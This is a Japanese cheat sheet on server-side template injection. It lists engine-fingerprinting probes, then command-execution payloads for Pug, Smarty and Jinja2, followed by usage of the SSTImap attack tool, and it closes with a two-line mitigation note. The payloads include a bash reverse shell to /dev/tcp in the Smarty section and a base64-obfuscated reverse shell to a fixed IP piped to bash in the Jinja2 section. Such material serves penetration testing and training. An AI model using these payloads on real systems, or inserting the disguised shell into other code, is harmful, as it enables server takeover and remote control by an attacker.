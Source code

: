 # SSTI サーバー側テンプレートインジェクション

## テンプレートの判別

```
# Twig（PHP）
{{7*'7'}} -> 49

# Jinja2（Python）
{{7*'7'}} -> 7777777

# Pug/（旧称 Jade）（Node.js）
#{7*7} -> 49

＃Smarty
{'Hello'|upper} -> HELLO
```

## システムコマンド

### Pug

javascript コードを直接実行できる

```javascript
#{root.process.mainModule.require('child_process').spawnSync('ls', ['-al']).stdout}
```

### Smarty

PHP コードを直接実行できる

```PHP
{system("ls")}

{exec("/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'")}
```

### Jinja2

```Python
# objectクラスのサブクラス一覧
{{"".__class__.__mro__[1].__subclasses__()}}

# <class '_sitebuiltins._Helper'> を使って、
# subprocess.open("ls") を実行
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(["ls", "-al"])}}

# よりスマートな方法
{{request.application.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjE0LjkwLjIzNS80NDQ1IDA+JjE=|base64 -d|bash').read()}}
```

## SSTImap 自動化

### インストール

```shell
git clone https://github.com/vladko312/SSTImap.git
cd SSTImap
pip install -r requirements.txt
```

### 実行

```shell
python3 sstimap.py -X POST -u 'http://$TARGET/' -d 'page='
```

## セキュリティ

- ユーザー入力のサニタイズ
- 環境のサンドボックス化
